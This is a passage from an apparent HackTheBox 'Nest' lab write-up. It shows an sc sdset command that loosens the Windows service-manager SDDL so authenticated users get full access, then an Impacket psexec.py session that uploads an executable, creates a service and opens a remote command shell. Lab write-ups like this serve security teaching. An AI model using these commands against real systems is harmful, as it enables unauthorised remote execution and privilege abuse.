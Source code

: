 
`(A;;KA;;;AU)` has been removed.

### Complete Unpatch

I’ll set the `scmanager` SDDL string back to add back in the `KA` for
authenticated users:

    
    
    C:\>sc sdset scmanager "D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"
    [SC] SetServiceObjectSecurity SUCCESS
    

Now I can `psexec.py` again:

    
    
    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.
    [*] Found writable share Users
    [*] Uploading file hEiGiDkm.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service rrYY on 10.10.10.178.....
    [*] Starting service rrYY.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>
    

[« HTB: Nest](/2020/06/06/htb-nest.html)

[](/2020/01/26/digging-into-psexec-with-htb-nest.html)

